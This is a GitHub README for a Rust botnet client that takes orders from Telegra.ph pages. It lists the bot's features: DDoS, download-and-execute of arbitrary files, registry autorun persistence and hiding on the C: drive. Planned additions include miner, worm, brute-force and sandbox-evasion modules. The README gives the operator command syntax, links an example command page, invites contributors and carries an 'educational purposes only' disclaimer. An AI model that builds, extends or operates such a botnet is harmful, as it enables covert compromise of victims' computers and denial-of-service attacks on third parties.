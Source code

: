 # Rust Botnet
Example botnet client which uses Telegra.ph as C&C server.

## Features
* DoS attack feature.
* Loader & Executer of any files.
* Update feature.
* Program adds itself to autoload register and moves to hidden folder in C:/ drive root.
* Botnet deletion by command.

### In development
* Bruteforce module.
* Sandbox & Virtual machine detector.
* Admin notification about new client.
* Miner module.
* Worm module.
* C&C server link / commands encryption.
* New module-based core architecture.
* Show message box to client.

Notice, that this is not production ready version. 
There are many bugs which are waiting to fix.

## Example & List of commands
Example of C&C server [here](https://telegra.ph/Cls93sog103ekfSfKTEsto294kfaozwkd394-rktkcsd-krfasseegpe11-03-20).
Botnet uses next syntax - `command{split}value` or `command{split}value{sep}value's_value`
### Available commands
* `download_exec{split}LINK_TO_FILE` - download and run file which is located at LINK_TO_FILE
* `ddos{split}TARGET{sep}TIME` - ddos TARGET for TIME seconds
* `upgrade{split}LINK_TO_FILE{sep}VERSION` - download and install botnet update which located at LINK_TO_FILE. Update will be installed only if botnet's file version is lower than VERSION
* `stop{split}` - you should use that command every time after executing other's ones
* `delete_botnet{split}` - delete botnet exe and it's registry notes from client's PC
* `exit{split}` - close botnet's executive file

## Help
 
If you need any help at all, feel free to post a issue.
 
## Contributing
 
Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer
This program must be used for educational purposes only!
I am not responsible for anything you do with it.

## License
This project is licensed under the MIT License - see the [LICENSE.md](https://github.com/Ookldev/rust_botnet/blob/master/LICENSE) file for details
